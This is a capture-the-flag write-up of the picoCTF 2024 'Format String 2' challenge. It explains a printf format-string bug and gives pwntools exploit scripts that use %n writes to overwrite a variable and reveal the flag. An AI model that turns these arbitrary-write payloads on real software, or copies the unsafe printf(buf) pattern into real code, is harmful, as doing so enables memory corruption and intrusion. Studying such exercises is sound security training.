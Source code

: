 ```yaml
---
title: picoCTF - 2024 - Pwn - Format String 2 
date: '2024-04-16'
tags: ['pwn', 'fmt', 'arbitrary-write', 'picoctf']
draft: false
summary: Overwriting a variable using the Format String Bug to fulfill an if-else condition for printing flag.txt. A very interesting challenge, to be honest.
---
```

## Challenge Description

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_chal_des.png)

## Solution

Before starting, I want to say that I am not an expert when it comes to binary exploitation. If you find mistakes in my write-ups, please let me know. I am open to any sort of constructive criticism.

Source code provided to us:
```c:vuln.c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];

  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We want to make this if-statement true:

```c:If-Condition
if (sus == 0x67616c66)
```

But problem is the value of sus is `0x21737573`. So to solve this challenge, we basically have to overwrite the value of **`sus`** to `0x67616c66`.

As **`printf()`** is being used, we can use **`%n`** format specifier to overwrite value of sus. 

The **`%n`** modifier writes the amount of chars printed so far as an int to the address specified by the argument. Using the **`$`** specifier we could also specify from exactly where we want to read this address. We could also send the addresses as input to the program which would put those addresses on the stack.

First we want to find the offset of our input string on the stack. For that, i will pass 8 ‘A’ and will leak the addresses of the stack so that I can clearly see where the input is being stored:

```
AAAAAAAA|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
```

Here I can see that my offset is 14:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_1.png)

Now, I know that I also need to know what address to write to. In this case it can be found using **`objdump`** on the binary:

```bash:objdump-command
objdump -D ./vuln | grep "sus"
```

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_2.png)

So, basically I want to overwrite address `0x404060` with the value `0x67616c66`. Let’s start making our payload.

For creating the payload, I took help from a Guide on [Format String Bug](https://www.theflash2k.me/blog/ctf-techs/fsb-guide) written by my mentor [TheFlash2k](https://www.theflash2k.me/about). He has explain fmt in very detail.

He has also explain how to arbitrary write 4-bytes by passing one byte at a time. **[** *[Source](https://www.theflash2k.me/blog/ctf-techs/fsb-guide#writing-four-bytes)* **]**

So the final payload that I created:

```python:final-payload
#!/usr/bin/env python3
from pwn import *

# Setting up terminal context for debugging
context.terminal = ["tmux", "splitw", "-h"]

# Executable and ELF setup
exe = "./vuln"
elf = context.binary = ELF(exe)

# If the GDB argument is provided, attach GDB to the process at the specified breakpoint
if args.GDB:
    io = process()
    gdb.attach(io, "b *main+231")

io = remote("rhea.picoctf.net", 61208)
io.recvuntil(b"?\n")

# Offset = 14
# 14 (Offset) + 5 (For payload) + 1 (Address to be written on)
start = 20

# Address of the variable to be overwritten, found using objdump and grep
sus = 0x404060

# Function to calculate the difference between two values modulo 256
diff_hhn = lambda i, j: ((i - j) % 256) # (0xFF+1)

payload = f"%{0x66}c%{start}$lln".encode()            # Writing 0x66 to memory
payload += f"c%{start+1}$hhn".encode()                # Writing 0x66 to sus[0]
payload += f"%{diff_hhn(0x66,0x61)}c%{start+2}$hhn".encode()  # Writing 0x61 to sus[3]
payload += f"%{diff_hhn(0x61,0x6c)}c%{start+3}$hhn".encode()  # Writing 0x6c to sus[2]
payload += b"||||||"                                  # Padding to align memory addresses
payload += p64(sus)                                   # Address of sus
payload += p64(sus+3)                                 # Address of sus[3]
payload += p64(sus+1)                                 # Address of sus[1]
payload += p64(sus+2)                                 # Address of sus[2]

io.sendline(payload)
io.interactive()
```
### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_3.png)

## Bonus

You can automate this whole process by using format string bug exploitation [tools](https://docs.pwntools.com/en/stable/fmtstr.html). The script will be:
```python:payload-crafted-using-exec_fmt-&-autofmt
from pwn import *

context.log_level = "critical"

context.terminal = ["tmux", "splitw", "-h"]
exe = "./vuln"
elf = context.binary = ELF(exe)
if args.GDB: gdb.attach(io, "b *main+231")

#io = process()
io = remote("rhea.picoctf.net", 61208)

def exec_fmt(payload):
    io = remote('rhea.picoctf.net', 61208)
    io.sendline(payload)
    return io.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

io.sendline(payload)

flag = io.recvuntil('}').split(b"...\n")[1]
flag = flag.decode('utf-8')

print(" ")
print("Flag:", flag)
print(" ")

io.interactive()
```

This script uses the `exec_fmt`, `autofmt` to find the offset for the payload and to find the address use `objump -D vuln` (as we did earlier).

### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/format-string-2/fmt2_4.png)

> *That’s it for today’s blog, take Care* 😃